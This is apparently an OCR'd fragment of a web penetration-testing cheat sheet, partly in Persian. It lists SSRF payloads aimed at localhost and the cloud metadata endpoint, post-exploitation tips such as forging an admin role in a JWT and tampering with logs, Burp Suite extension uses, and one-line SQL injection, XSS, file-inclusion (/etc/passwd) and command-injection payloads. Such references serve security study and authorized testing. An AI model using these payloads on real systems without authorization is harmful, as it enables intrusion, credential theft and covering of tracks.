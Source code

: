   ```html

---

### 🔹 SSRF (Server-Side Request Forgery)

Endpoint: /fetch?url=http://target.com/page

Payloads:

http://127.0.0.1:22

http://169.254.169.254/latest/meta-data/

http://burp-collaborator-server.com/

---

### 4. Post-Exploitation

 Password reuse تست شود

 بررسی JWT / session tokens

Decode JWT → modify role: admin

 Log tampering / privilege escalation

---

### 5. Tools Integration

Burp Suite Extensions:

Logger++ → مانیتورینگ ریکوئست‌ها

Autorize → تست BOLA/IDOR

ActiveScan++ → اسکن خودکار پیشرفته

Turbo Intruder → brute force سنگین

Collaborator → تست SSRF/XSS Blind

---

### 🎯 Quick Reference Payloads

SQLi: ' OR '1'='1 --

XSS: <img src=x onerror=alert(1)>

LFI: ../../../../etc/passwd

SSRF: http://169.254.169.254/

Command Injection: 127.0.0.1; whoami



=============================================================
=============================================================

## module 01 = introduction
  ```